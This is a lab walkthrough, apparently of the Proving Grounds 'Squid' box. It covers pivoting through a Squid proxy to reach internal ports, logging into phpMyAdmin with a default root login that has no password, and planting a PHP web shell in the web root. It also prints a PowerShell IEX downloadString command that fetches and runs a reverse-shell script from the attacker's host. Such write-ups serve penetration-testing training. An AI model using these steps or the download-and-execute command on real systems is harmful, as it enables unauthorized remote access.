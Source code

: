 First thing first we start with scanning the host for open ports using rustscan then use nmap to further enumerate those ports open

![1](https://raw.githubusercontent.com/markuched13/markuched13.github.io/main/posts/pg/images/Squid/1.png)

```
# Nmap 7.92 scan initiated Fri Jan 13 14:46:40 2023 as: nmap -sCV -A -p3128 -oN nmapscan -Pn 192.168.68.189
Nmap scan report for 192.168.68.189
Host is up (0.22s latency).

PORT     STATE SERVICE    VERSION
3128/tcp open  http-proxy Squid http proxy 4.14
|_http-server-header: squid/4.14
|_http-title: ERROR: The requested URL could not be retrieved

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jan 13 14:47:16 2023 -- 1 IP address (1 host up) scanned in 36.55 seconds
```

From the scan result we see that its a linux box and has only one port open which is port 3128 and the service that runs on it is squid proxy.

Now what is `Squid Proxy`: Squid is a full-featured web proxy cache server application which provides proxy and cache services for Hyper Text Transport Protocol (HTTP), File Transfer Protocol (FTP), and other popular network protocols. 

Basically its just a web proxy cache server application. And its the link between the external service and internal service

If we try accessing it we will get some sort of error
![1](https://raw.githubusercontent.com/markuched13/markuched13.github.io/main/posts/pg/images/Squid/2.png)

So we can leverage squid by scanning the internal ports open in the target

Firstly I need to generate a wordlist which will contain 1-65535 (tcp ports)
![1](https://raw.githubusercontent.com/markuched13/markuched13.github.io/main/posts/pg/images/Squid/3.png)

Then FUZZ for the internal ports and the squid proxy will be the proxy which will allow me perform this action
![1](https://raw.githubusercontent.com/markuched13/markuched13.github.io/main/posts/pg/images/Squid/4.png)

From the result we see that there are 2 internal running ports which are `3306` & `8080`

Using foxy proxy we can access the internal web page using the squid ip and port
![1](https://raw.githubusercontent.com/markuched13/markuched13.github.io/main/posts/pg/images/Squid/6.png)

Now lets access it by naviagating to http://127.0.0.1:8080/ we are presented with a default page for wampserver 

Looking below we see a phpmyadmin link lets click on it
![1](https://raw.githubusercontent.com/markuched13/markuched13.github.io/main/posts/pg/images/Squid/7.png)


Then logging in with the default cred `root:<blank_password>` we get access to the phpmyadmin panel
![1](https://raw.githubusercontent.com/markuched13/markuched13.github.io/main/posts/pg/images/Squid/8.png)

We can leverage this to get remote code execution as far as the user has write access over the web root directory which in this case its `C:\wampp\www` 

Then creating a php code that would give us code execution and saving it in the web root directory
![1](https://raw.githubusercontent.com/markuched13/markuched13.github.io/main/posts/pg/images/Squid/9.png)

Now to get code execution we just need to call in the the file and use ?cmd=<command> to run the command

And the web server is running as root 
![1](https://raw.githubusercontent.com/markuched13/markuched13.github.io/main/posts/pg/images/Squid/10.png)

Lets get a more stable shell

I'll be using Invoke-PowerShellTcp.ps1 script
![1](https://raw.githubusercontent.com/markuched13/markuched13.github.io/main/posts/pg/images/Squid/11.png)

So I set up a python http server on port 80 and a netcat listener on port 4444

Then to get shell i'll use this powershell command which would load the external script and execute it in this case the powershell reverse shell script

```
powershell IEX(New-Object Net.WebClient).downloadString('http://<ip>:<port>/Invoke-PowerShellTcp.ps1')
```
![1](https://raw.githubusercontent.com/markuched13/markuched13.github.io/main/posts/pg/images/Squid/12.png)

Now back on our python http server
![1](https://raw.githubusercontent.com/markuched13/markuched13.github.io/main/posts/pg/images/Squid/13.png)

Now on our netcat listener we get a shell
![1](https://raw.githubusercontent.com/markuched13/markuched13.github.io/main/posts/pg/images/Squid/14.png)

Incase you have any problem on this or I made a mistake please be sure to DM me on discord `Hack.You#9120`

<br> <br>
[Back To Home](../../index.md)
<br>


